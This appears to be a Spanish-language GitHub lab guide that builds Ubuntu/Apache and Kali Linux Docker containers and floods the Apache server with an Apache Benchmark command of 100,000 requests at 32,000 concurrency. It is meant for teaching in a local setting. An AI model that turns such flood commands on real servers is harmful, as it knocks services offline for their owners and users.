









# 🚀 Configuración de Contenedores para Pruebas de Seguridad

Este documento describe cómo configurar un entorno de prueba con **Ubuntu** y **Kali Linux** en contenedores Docker para evaluar ataques de Denial of Service (DoS) sobre un servidor Apache.

---

## 🏗️ Configuración del Servidor Apache en Ubuntu

En una terminal con Docker, ejecuta los siguientes comandos para desplegar y configurar un servidor Apache dentro de un contenedor **Ubuntu**.

### 📌 1. Crear un Contenedor de Ubuntu
```bash
docker run -dit --name servidor-apache-prueba -p 80:80 ubuntu
```


### 📌 2. Ejecutar la Instancia de Ubuntu
```bash
docker exec -it servidor-apache-prueba bash
```


### 📌 3. Actualizar el Sistema Ubuntu
```bash
apt update -y && apt upgrade -y
```


### 📌 4. Instalar el Servidor Apache
```bash
apt install -y apache2
```


### 📌 5. Configurar el Mensaje de Bienvenida
```bash
echo "<h3>Hola, soy un servidor con Apache Server.</h3><br>Si ves este mensaje, el servidor esta activo." > /var/www/html/index.html
```


### 📌 6. Iniciar el Servicio Apache
```bash
service apache2 start
```


### 📌 7. Verificar la Página Web en el Navegador
En el navegador local, ingresa la siguiente URL:
```
http://localhost:80
```



---

## 🔥 Configuración de Kali Linux para Pruebas de Ataques DoS

En otra terminal, ejecuta los siguientes comandos para desplegar un contenedor con **Kali Linux** y preparar herramientas para pruebas de carga sobre el servidor Apache.

### 📌 1. Crear un Contenedor con Kali Linux
```bash
docker run -dit --name kali-testing kalilinux/kali-rolling
```


### 📌 2. Ejecutar la Instancia de Kali Linux
```bash
docker exec -it kali-testing bash
```


### 📌 3. Actualizar el Sistema Kali
```bash
apt update -y && apt upgrade -y
```


### 📌 4. Instalar Herramientas de Pruebas de Carga (Apache Benchmark y Hping3)
```bash
apt install -y hping3 apache2-utils
```


---

## 🚨 Iniciando el Ataque DoS al Servidor Apache

A continuación, se ejecutará un ataque de inundación TCP aleatoria contra la IP y el puerto 80 del servidor Apache.

### 📌 2. Ejecutar Ataque de DDoS con **Apache Benchmark**
Este comando simulara 32,000 nodos que realizan 100,000 peticiones al servidor de apache de forma que colapse el servicio. 
```bash
ab -n 100000 -c 32000 http://172.17.0.2:80/
```


---

## 😬 Validación del ataque DDoS

Desde nuestro navegador volvemos a acceder a la pagina del servidor _http://localhost:80_ y notaremos que la carga de la pagina sera muy lenta o simplemente no cargara el sitio hasta que el ataque se detenga. 

Para detener el ataque volvemos a la terminal de nuestro contenedor de kali linux y presionamos Ctrl + C.


## 🎯 Conclusión

Después de realizar las pruebas, se puede analizar el impacto de los ataques en el servidor Apache. Se recomienda monitorear el uso de CPU y memoria del contenedor Ubuntu para evaluar el nivel de afectación.


⚠️ **Nota:** Este documento es únicamente con fines educativos. No se debe realizar ningún ataque fuera de un entorno controlado y autorizado.
